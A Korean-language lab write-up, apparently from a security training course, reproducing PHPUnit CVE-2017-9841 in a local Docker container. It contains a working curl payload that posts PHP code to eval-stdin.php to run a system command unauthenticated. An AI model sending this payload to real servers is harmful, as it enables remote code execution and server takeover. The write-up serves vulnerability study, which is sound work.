 # PHPUnit/CVE-2017-9841

> 화이트햇 스쿨 3기 - 김수연 (ksuyeon0124@gmail.com)

깃허브 주소 : https://github.com/f3s123/kr-vulhub
&nbsp;
### CVE 요약

- PHPUnit에 있는 `eval-stdin.php` 파일이 사용자 입력을 그대로 `eval()`로 실행한다.
- 공격자가 POST 요청으로 악성 PHP 코드를 보내 서버에서 실행 가능하다.
- 인증 없이 **원격 코드 실행(RCE)**이 가능해서 서버의 완전 장악이 가능하다.  

&nbsp;   
### 환경 구성

- 아래 커멘드를 입력하여 컨테이너를 올렸다.
    - `docker compose up -d`  

&nbsp;
### 취약점 실행

- 아래 명령어를 입력해서 이 시스템의 id를 출력해보려고 한다. 이 PHP 코드는 서버에서 **`id` 명령어**를 실행하는 명령어이다.

```bash
curl -X POST http://127.0.0.1:8080/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php -d "<?php system('id'); ?>"
```

- 아래와 같이 정보가 출력되는 것을 확인할 수 있다.

![result](https://github.com/user-attachments/assets/912fee33-a20d-4fdd-aded-b316897f61c9)  

&nbsp;       
### 정리

- 원래는 서버에서 사용자 입력의 실행이 금지되어야 하는데, `eval-stdin.php` 로 인해 실행이 된다. 하여 서버로 `system`의 `id`를 출력하는 명령어를 보냈는데, 그 정보를 그대로 출력하는 것을 확인할 수 있었다.

&nbsp;   

